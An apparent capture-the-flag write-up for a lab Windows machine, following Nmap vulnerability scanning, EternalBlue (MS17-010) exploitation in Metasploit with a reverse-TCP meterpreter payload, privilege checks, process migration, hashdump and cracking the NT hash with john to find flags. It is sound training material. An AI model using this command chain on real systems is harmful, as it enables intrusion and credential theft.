 # Task 1
 1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)
 2. How many ports are open with a port number under 1000?
'nmap -sC -sV 10.10.104.20': 3
 3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
'nmap --script=vuln 10.10.104.20': ms17_010
# Task 2
 1. Start Metasploit
'msfconsole'
 2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
'search ms17_010': exploit/windows/smb/ms17_010_eternalblue
'use exploit/windows/smb/ms17_010_eternalblue'
I've read that there's issues with the default payloads in meterpreter at the time of writing this, so I set that manually.
'set PAYLOAD windows/x64/meterpreter/reverse_tcp'
 3. Show options and set the one required value. What is the name of this value? (All caps for submission)
'options': RHOSTS
Now, I set RHOSTS to the target IP address with 'set RHOSTS 10.10.104.20
 4. Run the exploit!
First, since I'm on VPN I need to use 'set LHOST tun0', then, 'exploit'. It failed once and was successful on the second try for me.
# Task 3
 1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
First ctrl+z, then 'search shell_to_meterpreter': post/multi/manage/shell_to_meterpreter
 2. Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
'use post/multi/manage/shell_to_meterpreter' then 'options': SESSION
 3. Set the required option, you may need to list all of the sessions to find your target here.
'sessions' lists our sessions and their IDs, now 'set SESSION 1'
 4. Run! If this doesn't work, try completing the exploit from the previous task once more.
'exploit'
 5. Once the meterpreter shell conversion completes, select that session for use.
'sessions -i 1'
 6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
'getsystem', 'shell', 'whoami'
 7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
ctrl+z, 'y', then 'ps'. I am going to use 3064 for the TrustedInstaller.exe.
 8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
'migrate 3604' worked!
# Task 4
 1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
'hashdump': Jon
 2. Copy this password hash to a file and research how to crack it. What is the cracked password?
I copied the whole hash line starting with jon and ending in ::: then paste that into a file I just named hash.
In a seperate terminal I ran 'john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash'
This gave me the password I needed! There is another way to do it from within metasploit, but I did not have my database setup prior to this.
# Task 5
I took to long getting the right syntax for so I had to reexploit the machine, but coming back in I was stil nt\system
I typed 'cd /' and then 'cat flag1.txt' for the first flag.
I then navigated to /Users/Jon/Documents just to peek AND! found flag 3.
Now where is flag2? The hint is supposed to point us to where windows stores its passwords.
With some googling 'cd /windows/system32/config' and there's flag 2!
